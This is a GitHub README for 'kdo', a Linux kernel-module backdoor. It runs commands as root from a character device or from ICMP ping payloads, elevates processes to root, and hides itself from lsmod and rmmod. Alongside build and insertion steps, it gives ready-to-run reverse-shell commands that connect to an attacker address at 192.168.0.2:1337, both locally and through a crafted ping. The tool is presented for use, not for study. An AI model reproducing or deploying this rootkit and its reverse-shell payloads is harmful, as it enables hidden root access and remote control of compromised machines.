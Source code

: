 kdo
===
A "kernel sudo". This LKM creates a character device at `/dev/kdo` to which commands can be written
and executed via `call_usermodehelper`, effectively creating a backdoor  in userland. It also
registers an ICMP hook using netfilter to receive remote commands via ICMP payloads. Apart from
command execution, other convenient builtins are implemented as well. Default values can be modified
in `src/include/config.h`.

A Python script is provided to send the ICMP packet (`src/kdo-ping.py`). [Scapy](https://scapy.net/)
was used craft it.


Features
--------
- `kdo-exec [argv]` \
Execute a command via call_usermodehelper.

- `kdo-root` \
Grant root privileges to the current process (set process ids to 0).

- `kdo-hide` \
Hide module from `lsmod` and make it impossible to unload with `rmmod`.

- `kdo-show` \
Make module visible and removable after running `kdo-hide`.


Installation
------------
**1.** Clone the repository
```bash
git clone https://github.com/hiatus/kdo
```

**2.** Build the module
```bash
cd kdo
make
```

**3.** Insert the module 
```
sudo insmod kdo.ko
```

Configuration
-------------
Default values can be modified in `src/include/config.h`, such as the name of the created device
(`kdo` by default), the magic strings for the module's functionalities and the shell to execute
commands with. Logging can be enabled by defining the `DEBUG` symbol (undefined by default).


Usage
-----
Simply write to `/dev/kdo` or craft an ICMP request whose payload is a valid `kdo` command string.

Note that because the command execution backend inserts it's arguments as the last parameter for
`/bin/bash -c` (can be changed, see **Configuration**), shell functionalities such as redirection
are supported. For example, to spawn a reverse shell to `192.168.0.2:1337`, run in the target
machine:

```bash
echo 'kdo-exec bash -i >& /dev/tcp/192.168.0.2/1337 2>&1 0>&1' > /dev/kdo
```

To do the same thing remotely, send a ping from the attacker side with the same string as payload:

```bash
sudo python src/kdo-ping.py -t 192.168.0.3 'kdo-exec bash -i >& /dev/tcp/192.168.0.2/1337 2>&1 0>&1'
```
